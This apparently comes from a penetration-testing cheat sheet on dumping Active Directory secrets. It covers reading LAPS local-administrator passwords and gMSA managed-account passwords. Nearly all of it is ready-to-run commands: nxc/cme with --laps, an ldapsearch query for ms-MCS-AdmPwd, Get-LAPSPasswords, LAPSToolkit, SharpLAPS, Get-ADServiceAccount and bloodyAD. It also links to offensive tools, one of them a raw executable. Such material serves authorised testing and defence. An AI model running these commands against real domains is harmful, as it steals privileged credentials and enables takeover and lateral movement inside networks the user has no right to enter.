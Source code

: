 LAPS is a tool that periodically changes the local administrator's password when it expires. It then stores the password details in the Active Directory.

{% code overflow="wrap" fullWidth="true" %}
```bash
nxc ldap -u $USER -p $PASS --laps
# NOTE: pay attention since you will see a red color like LOGON_FAILURE but precisely those are the credentials dumped

ldapsearch -v -x -H ldap://$IP -D 'domain\user' -w 'password' -b 'dc=domain,dc=com' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
# in case that user can dump LAPS password, it will
cme smb $IP -u $user -p $PASS --laps 

https://www.hackingarticles.in/credential-dumpinglaps/
https://github.com/TheManticoreProject/goLAPS
https://github.com/leoloobeek/LAPSToolkit
https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps
# Find if there is a stored password with https://github.com/kfosaaen/Get-LAPSPasswords
PS> Get-LAPSPasswords
# Now we can provide valid credentials and see if we can retrieve the password
PS > $pw = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force                                                                                                     
PS > $creds = New-Object System.Management.Automation.PSCredential ("USER", $pw)                                                                                             
PS > Get-LAPSPasswords -DomainController $IP -Credential $creds
# for $pw and $creds use single quotes instead of ", note to change quotes in case it does not work

# ALTERNATIVE IF WE FIND PASSWORDS / Check which computers/groups/users can read the passwords
# https://github.com/leoloobeek/LAPSToolkit
Import-Module .\LAPSToolkit.ps1                                                                                                                                              
Get-LAPSComputers                                                                                                                                                            
Find-LAPSDelegatedGroups                                                                                                                                                     
Find-AdmPwdExtendedRights                                                                                                                                                    
# Read the passwords using valid credentials with https://github.com/swisskyrepo/SharpLAPS/releases
C:\> SharpLAPS.exe /user:WORKGROUP\user /pass:password /host:$IP
```
{% endcode %}

## GMSA (Group Managed Service Account)

[https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword#readgmsapassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword#readgmsapassword)

[https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe](https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe)

{% code overflow="wrap" fullWidth="true" %}
```powershell
Get-ADServiceAccount -Identity $USER -Properties * | Select PrincipalsAllowedToRetrieveManagedPassword
Get-ADServiceAccount -Identity 'svc_apache$' -Properties 'msDS-ManagedPassword'

bloodyAD.py --host $DC_IP -d "domain.local" -u $USER -p $PASS get object $TARGET_OBJECT_OR_USER --attr msDS-ManagedPassword
```
{% endcode %}
